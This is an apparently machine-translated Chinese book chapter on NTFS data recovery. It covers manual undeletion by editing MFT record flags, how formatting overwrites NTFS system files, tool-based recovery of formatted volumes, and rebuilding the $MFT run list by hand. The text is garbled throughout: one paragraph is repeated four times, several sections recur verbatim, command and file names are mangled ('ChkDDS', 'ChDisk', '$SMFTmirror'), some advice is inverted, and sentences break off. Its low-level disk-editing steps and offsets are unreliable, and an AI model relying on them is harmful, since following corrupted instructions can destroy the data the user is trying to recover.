如果文件是碎片化的怎么办？在本节中，我将描述手动文件恢复技术，包括适当的文件记录缺失的情况。在这些情况下，你不得不逐个簇地恢复文件。

如果文件系统损坏了怎么办？在本节中，我将描述手动文件恢复技术，包括适当的文件记录缺失的情况。在这些情况下，你不得不逐个簇地恢复文件。

如果文件记录被覆盖了怎么办？在本节中，我将描述手动文件恢复技术，包括适当的文件记录缺失的情况。在这些情况下，你不得不逐个簇地恢复文件。

如果文件非常大怎么办？在本节中，我将描述手动文件恢复技术，包括适当的文件记录缺失的情况。在这些情况下，你不得不逐个簇地恢复文件。

这代表文件名（该文件可能有多个此类类型的属性）。此属性还存储了对父目录的引用，如果从不同目录删除了多个同名文件，则需要区分你需要恢复的是哪一个。

实际的方法基于以下几点：在 SFT 文件没有碎片且实际上位于磁盘开头的情况下。文件名存储在从扇区起始偏移 `EAH` 处，其开头位于 `FILE*` 签名（NTFS 3.1 为 `FILEO`）。因此，可以使用任何磁盘编辑器（例如微软支持工具提供的 `Disk Probe`），以 Unicode 编码输入要恢复的文件名，并在扇区起始偏移 `EAH`（NTFS 3.1 为 `FH`）处搜索该文件（图 7.2）。



图 7.2. 使用 `Disk Probe` 进行手动文件恢复

### 被删除文件的手动恢复

考虑最简单的情况。假设文件最近被删除，且属于它的记录没有被覆盖。如何在磁盘上找到这样的文件？解决此任务有两种方法——理论方法和实际方法。理论方法极其可靠；然而，如果你基于实际假设进行恢复，通常可以避免许多额外操作。

理论方法包括以下操作：从引导扇区提取指向 `MFT` 的指针，获取其第一条记录（该记录描述 `$MFT`），并找到 `$DATA` (`80h`) 属性。然后解码数据运行列表并从 `MFT` 顺序读取所有文件，分析 `$FILE_NAME` (`30h`) 属性的内容，它代表文件名（该文件可能有多个此类类型的属性）。此属性还存储了对父目录的引用，如果从不同目录删除了多个同名文件，则需要区分你需要恢复的是哪一个。

## 第二部分：自动和手动硬盘数据恢复

当你找到所需的条目时，检查 `FILE*` 或 `FILE0` 签名是否位于扇区的开头。如果没有此类签名，则继续搜索。从起始位置偏移量 `16h` 处的 2 字节字段包含记录标志：`00h` 表示该记录未未使用或已删除，`01h` 表示该记录正在使用中，`02h` 表示该记录正在使用且是一个目录。可能会遇到其他值——例如 `04h` 和 `08h`。然而，它们的含义是未知且未文档的。你可能会自己发现它们的含义。

将 `00h` 替换为 `01h` 并保存更改。你成功了吗？当然，在执行完此操作后，你并不会获得任何积极的结果。这是因为除了这些操作外，还必须执行以下步骤：

- 1. 通知 `/SMFT:$BITMAP` `MFT` 记录再次投入使用。
- 2. 从 `/ $BITMAP` 文件中删除属于正在恢复文件的簇编号。
- 3. 重建存储目录内容的索引二叉树。

前两个步骤没有什么严重的问题，与此的是，最后一步需要巨大的努力。作为一种变，可以执行 `ChkDDS /F` 命令。`CHKDS` 实用程序会找到“丢失”的文件并向文件系统引入所有必要的更改（参见列表 7.1）。因此，你只需要将位于 `16h` 偏移处的标志设为 1；剩余工作将由 `ChkDDS` 完成。在经过这些复杂的处理后，恢复的文件将被放置在其原始位置。

### 列表 7.1. 使用 ChkDDS 恢复删除的文件

```
C:\CHKDS D:/F
文件系统类型为 NTFS。
文件验证完成。
索引验证完成。
CHKDSK 正在恢复丢失的文件。
CHKDSK 正在恢复目录 file 5 中的丢失文件 test.txt。
CHKDSK 正在替换文件 29 的错误安全描述符。
安全描述符验证完成。
CHKDSK 正在主文件表 BITMAP 属性中的错误。
```

## 第 7 章：NTFS 数据恢复 171

Windows 已修复文件系统。

总磁盘空间 1068290 KB。

- 2 个文件占用 20 KB。
- 9 个索引占用 4 KB。
- 坏道占用 0 KB。
- 系统使用 7894 KB。
- 日志文件占用 7392 KB。
- 磁盘可用 1060372 KB。

每个分配单元 2048 字节

磁盘上共有 534145 个分配单元

磁盘上可用 530186 个分配单元

## 清理碎片

现在，考虑更困难的文件恢复情况，即文件记录已被覆盖。如果删除的文件是驻留文件（换句话说，它的主体存储在 `MFT` 中），那么没有东西可以恢复了。即使在该位置创建了非驻留文件，操作系统也会用零填充“尾部”。要恢复原始内容，将需要使用昂贵的设备在物理层读取硬盘驱动器盘片的表面。

对于主体存储在 `MFT` 之外的非驻留文件，情况稍好一些，尽管即使在这种情况下有很多严重的问题。文件在磁盘上的顺序存储在 `MFT` 文件记录的运行列表（`run list`）中，而该记录已被覆盖。因此，只能通过内容进行上下文搜索。启动磁盘编辑器，输入保证存在于删除文件但在所有其他文件中都不存在的字符序列，并开始上下文搜索。为了加速搜索，可以只搜索空闲磁盘空间（`/BITMAP` 文件负责此类信息）。遗憾的是，我知道的所有磁盘编辑器都忽略了这种可能性；然而，编写一个自定义的“高级”搜索工具并不困难。

## 第二部分：自动和手动硬盘数据恢复

无碎片的文件可以很容易地恢复。只需选择一组扇区并将其写入磁盘（切勿写入正在恢复的卷中）就了。唯一的问题是确定原始长度。某些类型的文件允许其尾部存在垃圾数据（在这种情况下，它可能存在）。要恢复原始内容，将需要使用昂贵的设备在物理层读取硬盘驱动器盘片的表面。

对于主体存储在 `MFT` 之外的非驻留文件，情况稍好一些，尽管即使在这种情况下有很多严重的问题。文件在磁盘上的顺序存储在 `MFT` 文件记录的运行列表中，而该记录已被覆盖。因此，只能通过内容进行上下文搜索。启动磁盘编辑器，输入保证存在于删除文件但在所有其他文件中都不存在的字符序列，并开始上下文搜索。为了加速搜索，可以只搜索空闲磁盘空间（`/BITMAP` 文件负责此类信息）。遗憾的是，我知道的所有磁盘编辑器都忽略了这种可能性；然而，编写一个自定义的“高级”搜索工具并不困难。

无碎片的文件可以很容易地恢复。只需选择一组扇区并将其写入磁盘（切勿写入正在恢复的卷中）就了。唯一的问题是确定原始长度。某些类型的文件允许其尾部存在垃圾数据（在这种情况下，它可能存在）。要恢复原始内容，将需要使用昂贵的设备在物理层读取硬盘驱动器盘片的表面。

对于主体存储在 `MFT` 之外的非驻留文件，情况稍好一些，尽管即使在这种情况下有很多严重的问题。文件在磁盘上的顺序存储在 `MFT` 文件记录的运行列表中，而该记录已被覆盖。因此，只能通过内容进行上下文搜索。启动磁盘编辑器，输入保证存在于删除文件但在所有其他文件中都不存在的字符序列，并开始上下文搜索。为了加速搜索，可以只搜索空闲磁盘空间（`/BITMAP` 文件负责此类信息）。遗憾的是，我知道的所有磁盘编辑器都忽略了这种可能性；然而，编写一个自定义的“高级”搜索工具并不困难。

无碎片的文件可以很容易地恢复。只需选择一组扇区并将其写入磁盘（切勿写入正在恢复的卷中）就了。唯一的问题是确定原始长度。某些类型的文件允许其尾部存在垃圾数据（在这种情况下，它可能存在）。要恢复原始内容，将需要使用昂贵的设备在物理层读取硬盘驱动器盘片的表面。


对于主体存储在 `MFT` 之外的非驻留文件，情况稍好一些，尽管即使在这种情况下有很多严重的问题。文件在磁盘上的顺序存储在 `MFT` 文件记录的运行列表中，而该记录已被覆盖。因此，只能通过内容进行上下文搜索。启动磁盘编辑器，输入保证存在于删除文件但在所有其他文件中都不存在的字符序列，并开始上下文搜索。为了加速搜索，可以只搜索空闲磁盘空间（`/BITMAP` 文件负责此类信息）。遗憾的是，我知道的所有磁盘编辑器都忽略了这种可能性；然而，编写一个自定义的“高级”搜索工具并不困难。

无碎片的文件可以很容易地恢复。只需选择一组扇区并将其写入磁盘（切勿写入正在恢复的卷中）就了。唯一的问题是确定原始长度。某些类型的文件允许其尾部存在垃圾数据（在这种情况下，它可能存在）。要恢复原始内容，将需要使用昂贵的设备在物理层读取硬盘驱动器盘片的表面。

# 第174 页 第二部分：自动与手动硬盘数据恢复

碎片整理器。为什么磁盘的其余空间不可用？这是因为这些空间位于 `MFT` 区域内部。（记住，在磁盘格式化时，卷的 10% 空间被留给 `MFT` 文件。当磁盘空间耗尽时，`SMART` 大小会缩小约 2 倍，且释放的空间会被用户文件填充。）换句话说，为了保证操作顺利，碎片整理器需要 10% + 15% == 25% 的空闲磁盘空间。对于碎片整理来说，这个代价是不是太高了？如果你有超过 25% 的可用空闲磁盘空间，建议你在磁盘上创建一个临时文件，并尝试填充大间隙，以防止碎片整理器（碎片整理后必须删除此文件）。坦率地说，16 簇的限制与压缩文件无关；因此，我强烈建议你以压缩形式存储文件，因为这大大减少了卷碎片。尽可能让磁盘碎片化！这不仅可以提高性能，还简化了对被覆盖文件记录的文件的恢复。

通常认为，文件恢复并不是一项困难的操作；然而，如果你必须恢复已删除的文件，可以通过编写几个简单的实用程序来自动化此过程。要访问 Windows NT 下的逻辑驱动器，只需使用 `Create("\\X:\", GENERIC_READ, FILE_SHARE_READ, 0, OPEN_EXISTING, 0)` 函数打开同名文件，其中 `X` 是逻辑驱动器名称（更多细节请参阅微软的 SDK 文档）。

不要认为所有实用程序都是没有你的参与而编写的。市面上有很多适用于 `NTFS` 卷进行专业数据恢复的实用程序供你选择。现有的工具具有缺陷和荒谬的限制（例如，它们无法根据空闲或占用空间来限制扇区范围）。只有你才能尝试在你的...编写此类工具

## 研究碎片机制

调查磁盘分配的至少有两种技术：静态和动态。在第一种情况下，需要启动磁盘编辑器（首选 `DiskExplorer`），并使用不同的方法分析在不同时间写入的文件的运行列表（`run lists`）（图 7.3）。例如，可以将文件从一个位置复制到另一个位置，或者按顺序增加几个文件的大小——在这些情况下分配策略将是不同的。静态方法的用处在于，它允许对整个卷收集统计数据；然而，它只决定最终结果，而不决定实现过程。

![img/1ce3ad9a6814cc94d1e00101c220_188_0.png]

图 7.3. 使用 `DiskExplorer` 对磁盘空间分配进行静态分析

![img/1ce3ad9a6814cc94d1e00101c220_188_1.png]

图 7.4. 使用 `Disk Monitor` 对磁盘空间分配进行动态分析


# NTFS 数据恢复

## 由 Mark Russinovich 开发的 Disk Monitor

由 Mark Russinovich 开发的 `Disk Monitor` (`http://www.sysinternals.com`) 允许调查人员查看文件系统，并观察它是如何为文件分配磁盘空间的（图 7.4）。最有趣的调查技术是在运行碎片整理器或 `Chkdsk` 时并行运行此监控，因为在这种情况下所有秘密都将立即揭晓。

## 有用提示

尽管尽了所有努力，你仍然无法恢复被删除的文件，请尝试寻找它的备份副本。大多数应用程序都会创建此类副本；但它们不会显露它们的存在。此外不要忘记交换文件、临时文件、内存转储以及存储正在恢复的文件片段（或其他幸运的话是整个文件）的其他来源。即使它们已被删除，文件记录可能尚未被覆盖，在这种情况下恢复将花费很长时间。

## NTFS 中磁盘的取消格式化

假设最坏的情况已经发生：由于意外格式化或毁灭性的磁盘故障，你丢失了整个 NTFS 分区。组成你数据的数十亿字节已不可用。是否可能让这些信息恢复？在此之前，只考虑了损坏。现在是时候考虑导致这种情况的原因了：无意格式化、损坏的 `MFT`。然而，不要绝望！NTFS 能够幸存任何灾难，取决于它的可靠性。为了研究 NTFS，从 `format` 开始。为了执行所有操作，你需要 NTFS 卷的结构。即使它们已被删除，文件记录可能尚未被覆盖，在这种情况下恢复将花费很长时间。为了保证操作顺利，碎片整理器需要... 格式化工具这在 Windows 下是内置用的。建议在虚拟机磁盘上进行实验，例如 `VMware`，这会加速去碎片化过程（图 7.5）。请记住，时间是宝贵的。

![img/1ce3ad9a6814cc94d1e00101c220_190_0.png]

图 7.5. 在虚拟机中格式化磁盘

我不建议你在“活动”磁盘上进行实验（除非你获得了所需的技能）。如果你没有虚拟机，可以使用 Zip 驱动器（这种情况下它通常更可靠）。格式化磁盘的这种情况更为复杂。Russinovich 的工具清楚地说明了这一点。相关文章（`http://www.sysinternals.com/ntw2k/freepage/ntfs.html`）提供了...

## 格式化过程中发生了什么

磁盘格式化是一项复杂的操作。它比看起来要复杂且包含更多阶段。如果你曾经编写过自定义的磁盘格式化程序（在 80 年代，几乎所有程序员都写过此类工具），你就能理解我。恢复格式化的 NTFS 卷的技术将在本节后面提供。

当你使用 `format X: /U FS:NTFS` 命令时，以下更改将被引入磁盘的文件系统中（从 Windows 资源管理器菜单调用的 GUI 工具使用类似的方法格式化）：

- 构建 NTFS 引导区。
- 生成新的磁盘序列号并写入引导区的偏移 `48h` 处。
- 计算引导区的下一个校验和并存储在偏移 `50h` 处（见第 5 章“引导区基本概念”）。
- 创建一个新的 `MFT` 文件，包含存储在磁盘上的所有信息。按照规则，此文件放置在原始 `MFT` 文件上。规则的例外罕见。只有当原始 `MFT` 被碎片整理器替换或格式化时指定了不同的簇才会发生。在所有其他情况下，前 24 条记录将被不可逆地破坏。记录包含：`$MFT`、`$MFTMirr`、根目录、`/$LogFile`（事务文件）、`/$BITMAP`（空间映射）、`/$Secure`（安全描述符）以及其他系统文件。
- 初始化 `$MFT:DATA` 文件。分配长度（`$MFT:$30.AllocatedSize`、`$MFT:$30.RealSize`、`$MFT:$80.RealSize`、`$MFT:$80.CompressionSize`、`$MFT:$80.Initialized`、`$MFT:$80.LastVCN`）以及创建或修改日期（`$MFT:$10.CreationTime`、`$MFT:$10.FileReadTime`、`$MFT:$30.FileCreationTime`、`$MFT:$30.FileAlertedTime`、`$MFT:$30.ChangeTime`、`$MFT:$30.FileAndTime`）将被分配。最重要的是，创建了新的运行列表。这不可逆地覆盖了原始列表，这意味着将不得不逐碎片地组装碎片化的 `MFT`。

### 第 7 章：NTFS 数据恢复 179

- 6. 创建了新的 `$MFT:$BITMAP` 文件，它负责 `MFT` 中文件记录的使用。所有现有记录都被标记为可用；然而，它们并没有被物理删除，因为 `FileRecord` 标志仍然保持完好。由于这种情况，恢复过程被大大简化。通常，`$MFT:$BITMAP` 文件被放置在其原始位置（即在启动区域和 `MFT` 之间），其原始内容被填充零。然而，使用 `ChkdSk` 可以恢复它。
- 7. 创建了新的 `$MFT:$BITMAP` 文件，它负责磁盘空间的分配（空簇和占用簇）。此文件也会覆盖原始文件。尽管如此，可以使用 `ChkdSk` 恢复原始的 `$BITMAP` 文件。
- 8. 创建了新的事务文件 `$LogFile`。我将不再详细描述它的结构，因为可以在 NTFS-Linux 项目中找到详细描述。
- 9. 新的 `$LogFile` 序列号被添加到 `$MFT` 文件记录的头部。
- 10. `$MFT` 被分配了一个新的序列号。
- 11. 创建了新的 `$MFTmir` 文件，不可逆地覆盖了原始文件（在较新版本的 Windows 中，它位于 NTFS 分区的中间）。好吧，没有人需要一个不反映任何内容的镜像。
- 12. 创建了 `$Volume`、`$AttrDef` 和其他辅助文件。它们起辅助作用，可以轻松地使用 `ChkdSk` 进行恢复（尽管 `$Volume` 存在于 `MFT` 镜像副本中，但其值显然被夸大了）。
- 13. 检查表面完整性并将所有检测到的坏簇保存到 `$Badcls` 文件中。
- 14. 形成了新的根目录。
- 15. 如果在卷格式化之前它包含 `/System Volume Information` 文件，则该文件将得到更新；否则，只有在重启后才会创建新的 `/System Volume Information` 文件。

实际上，格式化过程甚至更加复杂。然而，我不会详细描述它，因为本节的主要目标不是解释如何编写自定义的格式化工具。如果你对这个主题感兴趣，可以使用 `IDA Pro` 反汇编 `format.file`。如果你决定这样做，有一些实用的提示：`format.com` `format.com` 仅包含一个基于 `ifutsil.dll`、`untfs.dll` 和文件系统驱动程序的高层封装。因此，将有大量的代码需要反汇编。为了简化

## 第二部分：硬盘自动与手动数据恢复



图 7.6. 使用监视工具调查格式化过程

你的任务，可以使用监视工具观察格式化过程（图 7.6），例如 Mark Russovich 开发的 `File Monitor` (`FileMon`) 和 `DiskMon`，它们的免费版本可以从 `http://www.sysinternals.com` 下载。此外，不要忘记对原生 API 函数设置断点，例如 `NtFsControlFile` 和 `NtDeviceIoControlFile`。

## 格式化后硬盘自动恢复

格式化并没有破坏用户文件的记录。因此，它们可以被完全恢复。有很多数据救援工具，如 `R-Studio`、`EasyRecovery` 和 `GetDataBack`。然而，没有任何工具能竞争 `Unformat`。这些工具只是“救援”一些幸存的文件或目录，并将它们写入新的存储介质。

### 第 7 章：NTFS 数据恢复 181

你会选择哪种介质？CD 不适用于此目的，主要因为要恢复大小为 80–120 GB 的硬盘内容，你需要一辆卡车来装这么多磁盘。此外，直接写入 CD-R/RW 并不总是可能的，因为系统崩溃后恢复工具必须从 CD-ROM 加载，而大多数电脑只有一个光驱器。最后，据我所知，此类工具不允许将大文件分成小文件。

可以通过局域网发送数据（尽管这并不总是可用），或安装额外的硬盘（前提是电脑未锁定且有空闲空间）。后一种方法麻烦吗？为了恢复至关重要的文件，这种技术是合适的。

考虑使用 R-Tools (`http://www.rtools.com`) 的 `R-Studio` 工具进行自动数据恢复技术。这是一个你可以依赖的强大工具。一旦启动该工具，就会驱动器视图。此窗口列出了所有物理设备和逻辑驱动器。找到所需的驱动器并在右键菜单中选择“扫描”(`Scan`)。


程序将提示你指定扫描的起始扇区（默认值为零，通常保持不变）以及要扫描区域的大小（默认是整个分区）。扫描整个分区可以确保扫描程序将找到所有幸存的记录，尽管这可能需要大量时间。有可能加速这个过程吗？进行一个简单的计算。假设要恢复的分区包含 100,000 个文件。记录的典型大小是 1 KB。只要 NTFS 没有碎片，从分区开始扫描大约 10 MB 就足够了。如果此值没有超过整个容量的 10%（留给 MFT 的空间从未超过 90%），那么假设可能是正确的。否则，NTFS 保证会在整个磁盘上碎片。无论如何，不要让自己冒险。输入 N KB，其中 N 是文件的数量（记住目录也是特殊类型的文件并开始扫描）。如果没有找到或多个文件，返回默认设置并重复扫描过程。如果现有文件的数量，指定卷容量的 10%。在文件系统字段中选择 NTFS 并取消 FAT 和 `ext2fs` 的复选框。然后点击扫描按钮（图 7.7）。


## 第二部分：硬盘自动与手动数据恢复



图 7.7. R-Studio 工具正在搜索幸存的文件记录



图 7.8 恢复的目录结构

### 第 7 章：NTFS 数据恢复



图 7.9. EasyRecovery 有良好的界面，但恢复质量远非完美

扫描过程中，程序将找到所有幸存的文件（无论是否删除）并恢复包括根目录在内的目录结构（图 7.8）。它是如何做到的？记住在格式化过程中根目录被破坏并重建了。这是 NTFS 的优势之一，它以可靠性闻名。与 FAT 不同，NTFS 目录只是为了加速显示内容的辅助数据结构。每个文件记录，无论来源如何，都包含指向父目录的引用，父目录代表 MFT 记录。根目录记录的位置始终是相同的。

删除的文件可能引用已经损坏的目录。R-Studio 将它们放入 `$FolderXXX`，其中 XXX 是目录的序号。大多数情况下，子目录结构被成功恢复。

要查看定位文件的虚拟树，按 `<F5>` 或从上下文菜单选择相关命令。选择一个文件（甚至是整个具有复杂子目录结构的目录），并按 `<F2>` 或选择 `Edit | View` 命令。这是一个强大的工具，以用户友好的格式显示要恢复的文件内容以及所有的属性、运行列表等。第二部分：硬盘自动与手动数据恢复。如果需要，你可以恢复所有选定的文件（`Recover All`），或者按掩码恢复（`Mask`）。

在 Ontrack Data Recovery 上备受誉的 EasyRecovery（图 7.9），与它的名字相反，并没有看起来那么简单。此外，它具有特定的特性。如果你不更改默认设置，它不会在格式化的磁盘上找到任何文件。要让它工作，必须选择高级选项并设置忽略 MFT 选项。然而，在这种模式下，恢复质量远非完美。

## 格式化后硬盘的手动恢复

本节描述了如何在不使用任何额外存储介质和昂贵的第三方工具的情况下手动恢复整个格式化分区。你只需要任何磁盘编辑器（最佳选择是 Runtime Software 的 `DiskExplorer`）；然而，在最坏的情况下，微软的免费 `Disk Probe` 和 `Sector Inspector` 结合 `ChDisk` 即可。

大多数关键数据结构被格式化代码不可逆地破坏了。手动恢复它们是一个非常麻烦的过程。幸运的是，这不需要！主思想是必须恢复所有列表文件；其余工作都可以委托给 `ChDisk`。

反汇编已经显示，当 `ChDisk` 无法运行时，数据结构是 `$MFT` 文件的 `$DATA` 属性。因此，你只需要恢复原始的 `$MFT:$DATA`，它将覆盖原始记录。

### 第 7 章：NTFS 数据恢复



**图 7.10.** `DiskExplorer`手动恢复（需要修改的字段带有下划线）

不稳定的 `DiskExplorer` 不允许你在自然显示模式下编辑字段。要引入更改，必须切换到十六进制模式并手动搜索所有值的偏移量。寻找 `$DATA` 属性头是很容易，因为 `80 00 00 00 00 00 00 01` 序列位于其开头。在 NTFS 3.0 中，它位于距离起始扇区的 `F8h` 偏移处。所有 NTFS 版本中的实际大小（Real Size）属性位于相对于头部偏移 `30h` 处，而分配大小（Allocated Size）和初始化大小（Initialized Size）字段分别位于 `28h` 字节和 `3bh` 字节的偏移处。分配大小的值必须是簇大小的倍数。确保在磁盘重新格式化的过程中簇大小没有变化；如果发生了变化，你将会失败。可以恢复原始簇大小吗？这可以轻松完成。鼓起勇气使用 `/A:x` 命令行选项重新格式化正在恢复的磁盘，其中 x 是簇大小。如何确定簇大小？取任何具有已知内容的文件并分析它的运行（run）。在整个磁盘上进行内容搜索，找到该文件，并记住（或者最好记录下）其起始簇的编号。然后打开它的文件记录，

# 第二部分：自动与手动硬盘数据恢复

解码运行列表（run list），计算第一个簇的编号。将扇区数除以簇数，即可获得所需的值。

现在，需要生成一个新的运行列表。通常，它将显示为 `13 XX XX XX YY 00`，其中 XX XX XX 是 `$MFT` 以簇为单位的3字节大小，YY 是起始簇。起始簇必须指向第一个 MFT 簇。`ChkDSk` 将无法运行。如果新的运行列表比当前的列表长（这很可能），则需要修正属性头的长度（它位于从起始偏移 `0h` 处）。在执行此尝试操作后，使用 `/F` 命令行选项启动 `ChkDSk`，观察你的文件和文件夹如何从无到有地恢复。唯一不会恢复的信息项是安全描述符。所有文件和文件夹将被分配默认访问权限。在各方面，都可以对恢复的磁盘进行操作，而不必担心它会被破坏。引用不存在目录的文件将被放置在 `Found.xxx` 文件夹中。这些是“长寿者”，在多次格式化操作中幸存下来，字面上是从彼岸被拉回的。

MFT 高碎片化的卷更难恢复。原始的运行列表在格式化过程中被破坏，镜像副本也损坏了。唯一的可能性是手动收集所有碎片。这听起来比实际要吓得多。与磁盘上存储的所有其他文件相比，`$MFT` 在每个文件记录的开头都存在 `FILE` 签名。你所需要做的是从第一个簇到最后一个簇顺序扫描分区，并记录属于 MFT 的每个碎片的开始和结束位置。然后，需要从该链中排除 `$SMFTmirror`。`$SMFTmirror` 很容易识别，因为它位于分区的中间，并且包含了 `$MFT`，`$SMFTmirror`，`$LogFile` 和 `$Volume` 文件记录的副本。同时，`$MFT` 引用其自身。例如，列表显示为

`08h-33h, 669h-966h, 1013-3210h`。粗略估计，运行列表将对应于：`12 B 23 08 02 23 03 69 96 22 FD 21 13 10 00`。关于运行列表编码和解码的更多细节，请参见第...章中的“数据运行”部分。

估计是粗略的，因为你不知道这些运行列表在文件中后续顺序（文件碎片在硬盘上的位置顺序与运行列表中的碎片顺序并不匹配）。如果 `$MFT` 文件碎片的顺序被破坏会发生什么？在 MFT 内部，所有文件记录通过它们的序数（即数组索引）相互引用。这些引用用于重建目录结构、组织运行列表以及其他一些目的。指向父目录的引用在索引中是重复的，因此很容易恢复。硬链接被破坏得很严重（绕过此点的唯一方法是尝试以不同的顺序重组 MFT 文件）。然而，实际上几乎没有人使用它们，所以无损失。对于分布在不同 MFT 碎片上的多个文件的高度碎片化文件，情况会变得困难。在这种情况下，只有以不同的顺序重组碎片才有所帮助。幸运的是，组合的数量通常很；因此恢复过程不会很长时间。好消息是，从 NTFS 3.1（对应 Windows XP）开始，MFT 中的文件记录数量以显式形式存储（一个位于起始偏移 `2ch` 处的 4 字节字段）。

### 第 7 章：NTFS 数据恢复

## 严重损坏后的硬盘恢复

由于失败，卷的内容可能无法无法访问。在这种情况下，尝试读取卷将导致磁盘不可用、系统找不到设备等错误消息（见图 7.11）。`ChkDSk` 会通知你 MFT 已损坏并停止。这种情况下可以做什么？

